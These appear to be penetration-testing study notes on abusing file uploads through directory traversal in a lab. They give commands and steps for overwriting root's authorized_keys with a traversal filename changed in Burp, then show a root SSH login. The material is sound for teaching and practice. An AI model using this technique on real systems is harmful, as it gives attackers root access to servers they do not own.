 ### Using Non-Executable Files
File uploads can have severe consequences even if there is no way for an attacker to execute the uploaded files. We may encounter scenarios where we find an unrestricted file upload mechanism, but cannot exploit it. One example for this is *Google Drive*, where we can upload any file, but cannot leverage it to get system access. In situations such as this, we need to leverage another vulnerability such as Directory Traversal to abuse the file upload mechanism.

If you notice that a Wb Application is missing file name and extensions you can use curl to cehck if the files exist:
```sh
kali@kali:~$ curl http://mountaindesserts.com:8000/index.php
404 page not found
kali@kali:~$ curl http://mountaindesserts.com:8000/admin.php
404 page not found
```
> **Info**:
> When testing a file upload form, we should always determine what happens when a file is uploaded twice. If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server. Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use.

We can check if we can upload a file name including a relative path and see the output (eg "Successfully Uploaded File: ../../../../../../../test.txt"). 

Web applications using Apache, Nginx or other dedicated web servers often run with specific users, such as *www-data* on Linux. Traditionally on Windows, the IIS web server runs as a *Network Service* account, a passwordless built-in Windows identity with low privileges. Starting with IIS version 7.5, Microsoft introduced the [IIS Application Pool Identities](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities). These are virtual accounts running web applications grouped by [application pools](https://docs.microsoft.com/en-us/iis/configuration/system.applicationhost/applicationpools). Each application pool has its own pool identity, making it possible to set more precise permissions for accounts running web applications.

When using programming languages that include their own web server, administrators and developers often deploy the web application without any privilege structures by running applications as *root* or *Administrator* to avoid any permissions issues. This means we should always verify whether we can leverage root or administrator privileges in a file upload vulnerability.

Let's try to overwrite the **authorized_keys** file in the home directory for *root*. If this file contains the public key of a private key we control, we can access the system via SSH as the *root* user. 

1. create an SSH keypair with [**ssh-keygen**](https://en.wikipedia.org/wiki/Ssh-keygen), as well as a file with the name **authorized_keys** containing the previously created public key.
    ```sh
    kali@kali:~$ ssh-keygen
    ...
    Your identification has been saved in fileup
    Your public key has been saved in fileup.pub
    ...

    kali@kali:~$ cat fileup.pub > authorized_keys
    ```
2. Now that the **authorized_keys** file contains our public key, we can upload it using the relative path **../../../../../../../root/.ssh/authorized_keys**. We will select our **authorized_keys** file in the file upload form and enable intercept in Burp before we click on the *Upload* button. When Burp shows the intercepted request, we can modify the filename accordingly and press *Forward*.
3. If we've successfully overwritten the **authorized_keys** file of the root user, we should be able to use our private key to connect to the system via SSH. kali@kali:~$ rm ~/.ssh/known_hosts
    ```sh
    kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com
    ...
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    ...
    root@76b77a6eae51:~#